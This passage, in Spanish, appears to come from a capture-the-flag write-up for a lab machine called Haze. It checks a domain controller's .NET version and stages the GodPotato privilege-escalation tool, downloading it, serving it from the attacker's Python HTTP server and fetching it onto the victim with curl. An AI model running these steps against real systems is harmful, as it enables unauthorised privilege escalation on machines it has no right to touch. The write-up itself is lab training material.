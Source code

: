 Verificaremos este valor en la [web oficial](https://learn.microsoft.com/en-us/dotnet/framework/install/how-to-determine-which-versions-are-installed) de Microsoft buscándolo, veremos que se trata de `.NET 4.8`

![image-center](/assets/images/posts/haze-net-framework.png)
{: .align-center}

Podemos utilizar `GodPotato.exe` ya que soporta la versión de este escenario (Windows Server 2022)

~~~ bash
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe
~~~

Iniciaremos un servidor HTTP para transferir el archivo al DC

~~~ bash
python3 -m http.server 80                                                                                                          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Descargaremos el ejecutable desde la máquina víctima, una buena opción es el comando `curl` o `certutil`

~~~ bash
PS C:\Temp> curl http://10.10.14.98/GodPotato-NET4.exe -o GodPotato.exe
PS C:\Temp> dir


    Directory: C:\Temp


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         6/29/2025   5:36 AM          57344 GodPotato.exe
~~~
